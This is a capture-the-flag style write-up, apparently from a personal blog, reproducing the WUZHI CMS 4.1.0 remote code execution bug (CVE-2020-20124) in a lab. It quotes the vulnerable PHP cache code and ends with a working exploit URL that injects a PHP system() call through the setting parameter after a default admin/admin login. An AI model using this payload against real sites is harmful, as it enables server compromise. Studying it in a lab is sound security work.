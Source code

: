 ```yaml
---
title: CVE-2020-20124【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-20124)

## 2. 漏洞分析

[Remote Code Execution Vulnerability In WUZHI CMS v4.1.0 · Issue #188 · wuzhicms/wuzhicms · GitHub](https://github.com/wuzhicms/wuzhicms/issues/188)

In the set_cache method of the \coreframe\app\core\libs\function\common.func.php file, when $data is not of the array type, $data will be written directly to the php file.

```php
function set_cache($filename, $data, $dir = '_cache_'){
	static $_dirs;
	if ($dir == '') return FALSE;
	if (!preg_match('/([a-z0-9_]+)/i', $filename)) return FALSE;
	$cache_path = CACHE_ROOT . $dir . '/';
	if (!isset($_dirs[$filename . $dir])) {
		if (!is_dir($cache_path)) {
			mkdir($cache_path, 0777, true);
		}
		$_dirs[$filename . $dir] = 1;
	}

	$filename = $cache_path . $filename . '.' . CACHE_EXT . '.php';
	if (is_array($data)) {
		$data = '<?php' . "\r\n return " . array2string($data) . '?>';
	}
	file_put_contents($filename, $data);
}
```

The set_cache method is called in the set method of the \coreframe\app\attachment\admin\index.php file, and $GLOBALS['setting'] has not been filtered，so anything can be written to the php file.

```php
    public function set()
    {
        if (isset($GLOBALS['submit'])) {
            set_cache(M, $GLOBALS['setting']);
            MSG(L('operation_success'), HTTP_REFERER, 3000);
        } else {
            $show_dialog = 1;
            load_class('form');
            $setting = &$this->_cache;
            if(!isset($setting['show_mode'])) {
				$setting = array('show_mode'=>2,'watermark_enable'=>1,'watermark_pos'=>0,'watermark_text'=>'www.wuzhicms.com');
				set_cache(M, $setting);
			}
            include $this->template('set', M);
        }
    }
```

Finally, on line 21 of \coreframe\app\attachment\admin\index.php, a php file that can write arbitrary content will be loaded.  

`$this->_cache = get_cache(M);`

## 3. 漏洞复现

弱口令登录 admin/admin

burp suite 抓包重放读取 flag【由于缓存原因可多次尝试】

`http://eci-2…………9.cloudeci1.ichunqiu.com/www/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<?php system("cat /flag");?>`

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310031237875.png)
